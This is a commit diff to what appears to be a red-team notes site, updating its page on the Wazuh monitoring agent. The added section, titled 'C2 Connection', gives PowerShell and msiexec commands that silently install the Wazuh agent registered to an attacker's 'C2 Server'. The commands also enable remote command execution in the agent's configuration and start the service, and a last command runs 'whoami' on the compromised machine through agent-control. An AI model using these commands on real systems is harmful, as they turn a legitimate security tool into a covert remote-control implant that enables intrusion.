

Before and after one commit to 0xAnalyst/Project-Lost, a Jekyll site: the page built from _tool/Wazuh.md, in a window 1280 px wide. Shown: the top 588 px of the page, without its empty margins (158-1112 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
Update Wazuh.md

````diff
--- a/_tool/Wazuh.md
+++ b/_tool/Wazuh.md
@@ -3,10 +3,20 @@
 tags:
   - Enum
   - Exec
+  - C2
 references:
 -
 files: []
 ---
 
 
-**Exec Commands**
+**C2 Connection**
+powershell.exe Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.5.3-1.msi -OutFile ${env:tmp}\wazuh-agent-4.5.3-1.msi;
+msiexec.exe /i ${env:tmp}\wazuh-agent-4.5.3-1.msi /q WAZUH_MANAGER='C2 Server' WAZUH_REGISTRATION_SERVER='C2 Server' WAZUH_AGENT_GROUP='1';
+Start-Sleep -Seconds 20;
+Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'wazuh_command.remote_commands=1';
+Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'logcollector.remote_commands=1';
+NET START WazuhSvc
+**Execute Commmands**
+once the agents connected the agent-control binary allows you to execute commands
+```/var/ossec/bin/agent-control -R 'whoami'```
````
